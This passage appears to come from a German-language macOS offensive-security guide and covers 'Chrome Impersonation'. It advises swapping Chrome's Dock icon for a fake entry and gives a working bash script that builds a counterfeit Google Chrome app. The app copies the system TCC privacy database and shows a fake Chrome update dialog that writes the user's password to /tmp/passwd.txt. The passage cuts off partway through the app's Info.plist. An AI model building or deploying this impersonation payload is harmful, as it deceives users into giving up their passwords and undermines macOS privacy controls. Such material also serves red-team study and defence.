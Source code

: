 {{#tabs}}
{{#tab name="Chrome Impersonation"}}
Einige Vorschläge:

- Überprüfen Sie im Dock, ob es ein Chrome gibt, und entfernen Sie in diesem Fall diesen Eintrag und **fügen Sie** den **falschen** **Chrome-Eintrag an derselben Position** im Dock-Array hinzu.&#x20;
```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%Chrome%';

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
cat > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c <<EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
char *cmd = "open /Applications/Google\\\\ Chrome.app & "
"sleep 2; "
"osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
"PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Enter your password to update Google Chrome:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"Applications:Google Chrome.app:Contents:Resources:app.icns\")' -e 'end tell' -e 'return userPassword'); "
"echo \$PASSWORD > /tmp/passwd.txt";
system(cmd);
return 0;
}
EOF

gcc /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c -o /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome
rm -rf /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CFBundleExecutable</key>
<string>Google Chrome</string>
<key>CFBundleIdentifier</key>
<string>com.google.Chrome</string>
<key>CFBundleName</key>
<string>Google Chrome</string>
<key>CFBundleVersion</key>
<string>1.0</string>
<key>CFBundleShortVersionString</key>
```